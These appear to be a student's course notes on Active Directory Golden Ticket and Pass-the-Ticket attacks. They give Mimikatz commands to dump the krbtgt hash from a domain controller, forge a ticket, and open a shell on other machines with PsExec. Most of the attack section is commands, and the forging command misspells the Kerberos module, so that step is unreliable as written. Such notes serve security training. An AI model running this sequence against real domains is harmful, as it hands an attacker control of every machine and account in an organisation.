 ```yaml
---
tags:
  - PEH
---
```

## Definition
Golden Ticket Attacks allow you to have the complete access to every machine in the domain since the compromised `krbtgt` account allows you to have access to any system or resource in the domain (you own the place that distributes tickets!).

The tickets can be generated once we have the SID and `krbtgt`hash.
## Executing Golden Ticket and Pass the Ticket Attacks
1. Transfer Mimikatz to the DC and run it using a privileged PowerShell
2. Enter debug mode `privilege::debug`
3. Run `lsadump::lsa /inject /name:krbtgt`
4. Keep the following
	1. The SID of the domain, and it should look like this `S-1-5-21-1560779125-3848459138-2476674860`
	2. The primary NTLM hash of `krbtgt` account
5. Now we have all of the requirements (SID and NTLM hash), we can perform the attacks using the following command
```bash
mimikatz # kerebros::golden /User:<real-user> /domain:<domain> /sid:<sid> /krbtgt:<krbtgt-NTLM-hash> /id:500 /ptt
```
6. Run `misc::cmd` and now you have a ticket in the current CMD session for any system or resource in the domain!
	1. From there, you can DO EVERYTHING YOU WANT TO ANY RESOURCE OR MACHINE. For example if you want to pop a shell, download PsExec.exe and run the following command `psexec.exe \\<pc-name(not-username)>` cmd.exe